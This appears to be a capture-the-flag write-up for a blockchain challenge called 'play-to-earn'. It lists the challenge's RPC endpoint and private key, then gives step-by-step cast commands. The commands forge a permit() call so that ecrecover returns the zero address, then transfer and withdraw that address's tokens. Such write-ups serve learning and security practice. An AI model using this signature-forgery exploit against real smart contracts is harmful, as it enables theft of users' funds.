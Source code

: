 Login info provided:
```
uuid:           56535432-429e-456c-848c-ec2c12d557ef
rpc endpoint:   https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef
private key:    0x3617bfcb8932b3853c73cd8b0ba796f9e52edd6b04b6a2e3ae0e7f7994874414
your address:   0x2689F00ea00D3237A4A40e49cA32ea7BAfB331b4
setup contract: 0x70CA517Cd07d724B9722873EBA444B2EA7D7d4f8
```

I have to send a request to `Setup.sol` with `register()`
A request to `Coin.sol` to `permit()` that will make the function `ecrecover` return `address(0)`
And a request to `Coin.sol` with `transferFrom(address(0), myaddress)`

Get the `Coin.sol` address
```sh
cast storage 0x70CA517Cd07d724B9722873EBA444B2EA7D7d4f8 0 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef"
```
```sh
0x7088512cfde545538084a54d5234d945dfdd925a
```

Permit `(Coin.sol)`
```sh
cast send 0x7088512cfde545538084a54d5234d945dfdd925a "permit(address, address, uint256, uint256, uint8, bytes32, bytes32)" 0x0000000000000000000000000000000000000000 0x2689F00ea00D3237A4A40e49cA32ea7BAfB331b4 15000000000000000000 115792089237316195423570985008687907853269984665640564039457584007913129639935 1 0x666f6f0000000000000000000000000000000000000000000000000000000000 0x666f6f0000000000000000000000000000000000000000000000000000000000 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef" --private-key 0x3617bfcb8932b3853c73cd8b0ba796f9e52edd6b04b6a2e3ae0e7f7994874414
```

Register `(Setup.sol)`
```sh
cast send 0x70CA517Cd07d724B9722873EBA444B2EA7D7d4f8 "register()" --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef" --private-key 0x3617bfcb8932b3853c73cd8b0ba796f9e52edd6b04b6a2e3ae0e7f7994874414
```

Transfer tokens `(Coin.sol)`
```sh
cast send 0x7088512cfde545538084a54d5234d945dfdd925a "transferFrom(address, address, uint256)" 0x0000000000000000000000000000000000000000 0x2689F00ea00D3237A4A40e49cA32ea7BAfB331b4 15000000000000000000 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef" --private-key 0x3617bfcb8932b3853c73cd8b0ba796f9e52edd6b04b6a2e3ae0e7f7994874414
```

I also need to withdraw the tokens `(Coin.sol)`
```sh
cast send 0x7088512cfde545538084a54d5234d945dfdd925a "withdraw(uint256)" 15000000000000000000 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef" --private-key 0x3617bfcb8932b3853c73cd8b0ba796f9e52edd6b04b6a2e3ae0e7f7994874414
```

Check `isSolved() - Setup.sol`
```sh
cast call 0x70CA517Cd07d724B9722873EBA444B2EA7D7d4f8 "isSolved()" --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef"
```
## Other useful blockchain commands

Check balances (this referes to ethereum balances)
```sh
cast balance 0x0000000000000000000000000000000000000000 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef"
```
```sh
cast balance 0x2689F00ea00D3237A4A40e49cA32ea7BAfB331b4 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef"
```

Check token balances `(Coin.sol)`
```sh
cast call 0x7088512cfde545538084a54d5234d945dfdd925a "balanceOf(address)" 0x0000000000000000000000000000000000000000 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef"
```

check the allowance `(Coin.sol)`
```sh
cast call 0x7088512cfde545538084a54d5234d945dfdd925a "allowance(address, address)" 0x0000000000000000000000000000000000000000 0x2689F00ea00D3237A4A40e49cA32ea7BAfB331b4 --rpc-url "https://play-to-earn.chals.sekai.team/56535432-429e-456c-848c-ec2c12d557ef"
```

## References
https://scsfg.io/hackers/signature-attacks/
